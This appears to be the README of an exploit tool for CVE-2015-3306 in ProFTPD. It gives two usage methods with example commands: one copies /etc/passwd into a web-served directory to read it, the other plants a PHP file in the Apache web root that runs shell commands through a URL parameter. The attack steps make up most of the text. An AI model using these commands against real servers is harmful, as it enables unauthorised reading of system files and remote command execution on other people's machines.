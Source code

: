 # cpx_proftpd

Tool coded by Daniel Aldana for [CVE-2015-3306](http://bugs.proftpd.org/show_bug.cgi?id=4169) exploitation. Bug reported by Vadim Melihow

##METHOD 1:

usage: 

```
python cpx_proftp.py 1 <IP> <REMOTE_FULLPATH_SRC_FILE> <REMOTE_FULLPATH_DST_FILE>
```

ex:

```
python cpx_proftp.py 1 127.0.0.1 /etc/passwd /var/www/pass.txt
```

then try:

```
http://127.0.0.1/pass.txt
```

##METHOD 2:


usage: 

```
python cpx_proftp.py 2 <IP> <REMOTE_FULLPATH_APACHE2>
```

ex:

```
python cpx_proftp.py 2 127.0.0.1 /var/www/html
```

then try:

```
http://127.0.0.1/xxx.php?img=ls
```
